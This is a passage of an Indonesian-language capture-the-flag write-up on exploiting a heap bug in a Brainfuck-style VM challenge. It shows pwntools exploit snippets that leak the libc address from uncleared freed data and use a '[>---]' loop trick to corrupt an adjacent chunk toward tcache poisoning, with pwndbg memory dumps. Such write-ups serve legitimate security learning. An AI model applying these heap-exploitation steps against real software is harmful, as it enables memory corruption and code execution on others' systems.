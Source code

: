 untuk mendapatakan leak, bisa gunakan instruksi `.`/`putchar` satu per satu dari .data cell. Ini bisa dilakukan karena setelah `free`, isi data tidak dikosongkan (`memset`) sama sekali.

```py
payload  = '.>' * 8
create(payload)
libc.address = (u64(run(0)) - libc.sym['__malloc_hook']) & 0xFFFFFFFFFFFFF000
info('libc 0x%x' % (libc.address))
```

setelah leak didapat yang perlu dikontrol selanjutnya adalah alokasi dari `malloc`. tcache poisoning disini bisa dilakukan, tapi dengan limitasi ukuran program hanya sebesar 0x250 dan tidak ada uaf. “shift” pointer data berulang kali dengan batasan ukuran program untuk mengotrol chunk lain dengan “`<`” / “`>`” juga tidak bisa. Trik yang digunakan disini adalah `[<-]`. Sebagai visualisasi,

```
    000055555575axxx     0000000000000000 0000000000000261 .prog
    000055555575axxx     ................ ................
    000055555575axxx     0000000000000007 0000000000000000
                                       ^^--------------------- mulai .prog vmx[n - 1]
    ...
    ...
    000055555575axxx     0000000000000000 0000000000000261 .data
    000055555575axxx     0000000000000000 0000000000000000
                                       ^^--------------------- mulai .data vmx[n]
    000055555575axxx     0000000000000000 0000000000000000
    000055555575axxx     0000000000000000 0000000000000000
```

`[<-------]`, `]` akan mengecek apakah `*ptr == 0`, jika tidak, loop akan tetap dieksekusi. Disini trik yang diguakan adalah shift data terus sampai ke posisi `*ptr == 7` (perhatikan bahwa di dalam loop, sebelum `]` terdapat 7 \* `-`). Byte yang dilewati memang akan menjadi _amburadul_, tapi akhirnya tidak perlu dipedulikan juga, yang penting sudah bisa mengontrol chunk lain dan ratusan byte untuk program sudah dihemat dengan cara seperti ini.

```py
payload  = '[>---]'
create(payload) # 3

payload  = p64(0)
payload += p64(0)
payload += p8(3) # unique val
create(payload) # 4

# pwndbg> dq $rebase((long*)&vmx) 10
# 0000555555756060     000055555575a270 000055555575a4d0
# 0000555555756070     000055555575a730 000055555575a990
# 0000555555756080     000055555575a730 000055555575abf0
# 0000555555756090     000055555575ae50 000055555575b0b0
# 00005555557560a0     000055555575b310 000055555575b570
# pwndbg> dq 0x55555575b0a0
# 000055555575b0a0     0000000000000000 0000000000000261
# 000055555575b0b0     0000000000000000 0000000000000000
#                                    ^^-------------------- vmx[3].data
# 000055555575b0c0     0000000000000000 0000000000000000
# 000055555575b0d0     0000000000000000 0000000000000000
# pwndbg> dq 0x55555575b300
# 000055555575b300     0000000000000000 0000000000000261
# 000055555575b310     0000000000000003 0000000000000000
#                                    ^^-------------------- unique value @ vmx[4].prog
# 000055555575b320     0000000000000000 0000000000000000
# 000055555575b330     0000000000000000 0000000000000000

delete(4)
run(3)
# pwndbg> dq 0x55555575b300
# 000055555575b300     fdfdfdfdfdfdfdfd fdfdfdfdfdfdff5e
```
